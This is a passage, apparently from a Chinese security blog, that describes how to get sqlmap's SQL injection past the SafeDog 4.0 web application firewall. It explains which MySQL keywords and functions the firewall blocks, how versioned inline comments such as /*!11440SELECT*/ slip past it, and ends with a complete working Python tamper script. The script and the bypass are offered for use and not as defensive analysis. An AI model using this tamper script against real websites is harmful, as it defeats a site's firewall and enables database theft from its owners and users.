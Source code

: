   

测试过程中发现sqlmap在进行联合注入测试时，会使用UNION ALL SELECT

语句，同样的UNION ALL SELECT语句也是UNION ALL不拦截，  

  

UNION ALL SELECT才会被拦截，所以也是只需要对SELECT进行内联注释就行。

  
最后结果可以看到，所有类型的注入都可以跑出来  

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816090628.png)

  

但是在测试查询所有数据库名时sqlmap会使用USER()和SESSION_USER()函数，

还是用之前的方法，在字母和括号之间使用内联`USER/*!77777cz*/()`,

但是这样的话SESSION_USER()函数也会被转换成`SESSION_USER/*!77777cz*/()`然后就会报错。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210816090629.png)

  
所以要单独对SESSION_USER()使用另一种内联来绕过，/!11440SESSION_USER()/

最后效果  

![]()

  

# 最终tamper

#!/usr/bin/env python  
"""  
Copyright (c) 2006-2019 sqlmap developers ([url]http://sqlmap.org/[/url])  
See the file 'LICENSE' for copying permission  
Author:LUSHUN  
"""  
  
import re  
import os  
  
from lib.core.data import kb  
from lib.core.enums import PRIORITY  
from lib.core.common import singleTimeWarnMessage  
from lib.core.enums import DBMS  
  
__priority__ = PRIORITY.LOW  
  
def dependencies():  
   singleTimeWarnMessage("Bypass safedog4.0'%s' only %s" %
(os.path.basename(__file__).split(".")[0], DBMS.MYSQL))  
  
def tamper(payload, **kwargs):  
       payload=payload.replace('AND','/*!11440AND*/')  
       payload=payload.replace('ORDER','order/*!77777cz*/')  
       payload=payload.replace("SELECT","/*!11440SELECT*/")  
       payload=payload.replace("SLEEP(","sleep/*!77777cz*/(")  
       payload=payload.replace("UPDATEXML(","UPDATEXML/*!77777cz*/(")  
       payload=payload.replace("SESSION_USER()","/*!11440SESSION_USER()*/")  
       payload=payload.replace("USER())","USER/*!77777cz*/())")  
       payload=payload.replace("DATABASE()","DATABASE/*!77777cz*/()")  
       return payload  

